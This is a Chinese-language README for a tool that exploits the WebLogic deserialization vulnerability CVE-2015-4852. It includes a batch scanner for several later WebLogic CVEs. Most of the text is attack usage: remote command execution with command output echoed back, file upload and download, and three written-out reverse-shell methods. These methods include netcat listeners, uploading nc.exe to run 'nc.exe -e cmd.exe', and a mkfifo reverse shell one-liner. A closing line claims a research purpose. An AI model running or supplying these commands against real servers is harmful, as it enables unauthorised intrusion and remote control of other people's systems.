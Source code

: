 # weblogic unserialize exploit

#### java反序列化漏洞（CVE-2015-4852）的weblogic exploit命令回显exp

### 1.依赖组件
+ python 2.7
+ java

### 2. 程序说明
+ exploit方法来源于Freebuf的”Java反序列化漏洞之weblogic本地利用实现篇”，基于rebeyond大牛的研究和反编译WebLogic_EXP.jar实现的。
+ 与rebeyond的方法相比，只提取了WebLogic_EXP.jar中用到的少数几个java class，使用python脚本来实现exploit。
+ 根据网上和自己测试的weblogic反序列化漏洞，完善了CVE-2016-0638、CVE-2016-3510、CVE-2017-3248、CVE-2018-2628和CVE-2018-2893的批量检测脚本（weblogic_check_vuls.py）（2018.7.20）

### 3.使用说明 

+ python exp:

```bash
weblogic.py [-h] -u HOST -p PORT -os {win,linux} -t {verify,exploit}
                   [--silent]

optional arguments:
  -h, --help            show this help message and exit
  -u HOST, --host HOST  weblogic host
  -p PORT, --port PORT  host port
  -os {win,linux}, --os_type {win,linux}
                        os type
  -t {verify,exploit,reverse_shell}, --exp_type {verify,exploit,reverse_shell}
                        exploit type; verify to check the vul,the exploit mode
                        can run cmd and get the result
                        reverse_shell can get shell
  --silent              don't show the verbose message
 
 verify :只执行一次whoami命令，验证是否漏洞存在
 exploit:远程命令执行模式，运行putfile、getfile和命令远程运行和回显
 reverse_shell:反弹shell（需要设定--LHOS和--LPORT参数）
 --LHOST LHOST         reverse shell to the host ip
 --LPORT LPORT         reverse shell to host port
 
 exploit模式下可以进行文件的下传和下载：	
 		上传文件：putfile [localfile] [remotefile]
	    下载文件：getfile [remotefile] [localfile]
		
```
+ 远程执行命令是通过java的RMI来实现的

```bash
java -jar shellApp.jar [host] [port] [os] [cmd]
	OS:win|linux
	CMD: putfile [localfile] [remotefile]
		 getfile [remotefile] [localfile]
		 [windows or linux cmd]
```

+ 程序在windows/linux/mac下测试通过，weblogic版本为10.3.6。

### 4.payload_bin说明

+ payload_bin下面的各种payload是用于向weblogic通过t3协议发送的反序列化内容，由通过执行genPayload.class产生的，执行命令为：

   java -jar genPayload.jar [OS] [Payload_Type]
   		OS:win|linux
   		Payload_Type:upload_inst|inst|upload_uninst|uninst|delete|upload_reverse|reverse	
### 5.反弹shell
+ 方法一：

```bash
1、在本机上监听，等待shell反弹
		
		nc -l 8080
		
2、命令行反弹shell
		
		./weblogic.py -u 192.168.56.104 -p 7001 -os win -t reverse_shell --LHOST 192.168.56.101 --LPORT 8080
		
		--LHOST与--LPORT分别是要反弹获得shell的主机地址和端口

本方法是采用t3协议直接将java程序发包到服务器上后直接反弹shell，是最方便的一种。感谢Rstar提供的实现，我稍做了修改以匹配exp的实现。
```

+ 方法二：

```bash

1、用weblogic.py exploit到weblogic服务器

2、上传payload_bin目录下的的nc.exe（windows主机）;或修改reverse_shell.py的LHOST和LPORT（linux主机）后上传到服务器。

		exploit>putfile payload_bin/nc.exe c:\windows\temp\nc.exe (windows主机）
		exploit>putfile payload_bin/reverse_shell.py /tmp/rs.py (linux主机)

3、在本机上监听，等待shell反弹

		nc -l 8080
		
4、通过exploit执行远程命令反弹shell

		exploit>c:\windows\temp\nc.exe -e cmd.exe remote_ip 8080 (windows主机）
		exploit>python /tmp/rs.py (linux主机)
```
+ 方法三：（linux）

```bash
1、在本机上监听，等待shell反弹
		
		nc -l 8080
		
2、通过exploit执行远程命令反弹shell
		
		exploit>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc remote_ip 8080 >/tmp/f

```

### 6.weblogic反序列化漏洞批量检测脚本

```
usage: weblogic_check_vuls.py [-h] [-f FILE] [-t TARGET] [-p PORT]

weblogic scanner

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  read target ip from file
  -t TARGET, --target TARGET
                        target ip
  -p PORT, --port PORT  server port,default is 7001
You must set target ip or file!
```

### 7.其它

+ 本程序只用于技术研究和个人使用，来源于网络、分享于网络，欢迎各位大牛继续完善

